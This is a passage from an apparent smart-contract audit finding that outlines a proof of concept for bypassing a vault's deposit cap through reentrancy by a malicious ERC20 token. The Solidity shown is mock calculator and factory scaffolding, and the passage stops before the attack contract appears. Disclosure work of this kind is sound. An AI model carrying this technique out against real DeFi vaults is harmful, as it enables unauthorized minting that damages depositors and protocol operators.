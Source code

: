 ## Proof of Concept

Below is a minimal PoC outline demonstrating the cap-bypass via reentrancy. It uses:
- A malicious ERC20 token that reenters `Provisioner.deposit` during `transferFrom`.
- A mock price/fee calculator that returns 1:1 conversions and never pauses the vault.
- A factory stub to deploy `MultiDepositorVault` and set metadata/hook, then set the provisioner.

The PoC sets a small `depositCap`, executes an initial deposit `A`, which reenters to execute deposit `B` during `enter(...)`. Both pre‑mint cap checks pass against the same `totalSupply()` snapshot. After both mints, the resulting `totalSupply` exceeds the cap.

Note: This is a focused exploit demonstration. In a full test harness, ensure the vault owner/authority permits setting the provisioner and that mocks satisfy constructor/permission requirements.

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.29;

import {IERC20} from "@oz/token/ERC20/IERC20.sol";
import {ERC20} from "@oz/token/ERC20/ERC20.sol";
import {Provisioner} from "Provisioner/src/core/Provisioner.sol";
import {IMultiDepositorVault} from "Provisioner/src/core/interfaces/IMultiDepositorVault.sol";
import {MultiDepositorVault} from "MultiDepositorVault/src/core/MultiDepositorVault.sol";
import {IPriceAndFeeCalculator} from "Provisioner/src/core/interfaces/IPriceAndFeeCalculator.sol";
import {IBeforeTransferHook} from "MultiDepositorVault/src/core/interfaces/IBeforeTransferHook.sol";
import {Authority} from "@solmate/auth/Auth.sol";

// --- Mock Calculator that returns 1:1 conversions and never pauses ---
contract MockCalculator is IPriceAndFeeCalculator {
    function convertUnitsToToken(address, IERC20, uint256 unitsAmount) external pure returns (uint256) { return unitsAmount; }
    function convertUnitsToTokenIfActive(address, IERC20, uint256 unitsAmount, Math.Rounding) external pure returns (uint256){ return unitsAmount; }
    function convertUnitsToNumeraire(address, uint256 unitsAmount) external pure returns (uint256) { return unitsAmount; }
    function convertTokenToUnits(address, IERC20, uint256 tokenAmount) external pure returns (uint256) { return tokenAmount; }
    function convertTokenToUnitsIfActive(address, IERC20, uint256 tokenAmount, Math.Rounding) external pure returns (uint256){ return tokenAmount; }
    function getVaultState(address) external pure returns (VaultPriceState memory, VaultAccruals memory) { revert(); }
    function getVaultsPriceAge(address) external pure returns (uint256) { return 0; }
    function isVaultPaused(address) external pure returns (bool) { return false; }
    // Unused in PoC
    function registerVault() external {}
    function setInitialPrice(address, uint128, uint32) external {}
    function setThresholds(address, uint16, uint16, uint16, uint8, uint8) external {}
    function setUnitPrice(address, uint128, uint32) external {}
    function pauseVault(address) external {}
    function unpauseVault(address, uint128, uint32) external {}
    function resetHighestPrice(address) external {}
    function previewFees(address, uint256) external pure returns (uint256, uint256) { return (0,0); }
}

// --- Factory stub used by MDV constructor ---
contract MockFactory {
    IBeforeTransferHook public hook; // optional, set to address(0) for PoC
    constructor(IBeforeTransferHook h) { hook = h; }

    function getERC20Name() external pure returns (string memory) { return "MDV"; }
    function getERC20Symbol() external pure returns (string memory) { return "MDV"; }
```
